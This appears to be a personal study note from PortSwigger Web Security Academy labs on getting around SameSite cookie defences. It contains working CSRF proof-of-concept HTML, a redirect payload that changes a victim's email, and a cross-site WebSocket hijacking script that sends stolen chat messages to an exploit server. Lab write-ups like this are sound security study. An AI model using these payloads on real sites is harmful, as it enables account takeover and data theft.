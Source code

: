 `Set-Cookie: trackingId=0F8tgdOhi9ynR1M9wa3ODa; SameSite=None; Secure`

## bypassing 

###  if he don't use CSRF token but uses `lax` or default same site cookie settings 
if he uses `lax` `chrome` initiates `lax` after `120 sec` 
if he accepts the submission over a `get` request then we can overwrite the method at CSRF POC 
as we know when using `lax` we can only make the victim send cookie cross sited only if he uses get request so we can over write it like that 
```html
<html>
<body>
   <script>history.pushState(' ', ' ' ,'/')</script>
   <form action="" method="GET">
   <input type="hidden" name="_method" value="POST">
   <input type="hidden" name="email" value="">
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```
we trick the browser by make the method of the form `get` but we overwrite it in the next step 

### if the web site made the cookie `srtict`
so we have nothing to do but finding  a redirect in the website and the endpoint of the CSRF vulnerable function accepts `GET` request so we need to manipulate the URL for redirect to our endpoint and with all parameters and redirections 
```js
<script>
window.location="https://0aa200ba03bde9e280e2088d006f00be.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email%3femail%3dyoussefsemira1%2540gmail.com%26submit%3d1";
</script>
```
so we made a script that redirects us to the vulnerable endpoint with the new credentials 

### if the web site made the cookie `srtict` again 
but u can't find any redirection in you r domain so if you found the `CORS`header `acces-control=allow=inrigin=origin.com` so if you found any vulnerability in that domain that means that you can exploit the `CSRF` 


this code is for hijacking the websocket by another domain 
```js 
<script>
var webSocket = new WebSocket(
    "wss://0a7a007e033d38b38015171c000700c4.web-security-academy.net/chat"
);

webSocket.onopen = function (evt) {
    webSocket.send("READY");
};

webSocket.onmessage = function (evt) {
    var message = evt.data;
    fetch(
        "https://exploit-0ad2007d03e4382c8000167001200042.exploit-server.net/exploit?message=" + 
        btoa(message)
    );
}
</script>

```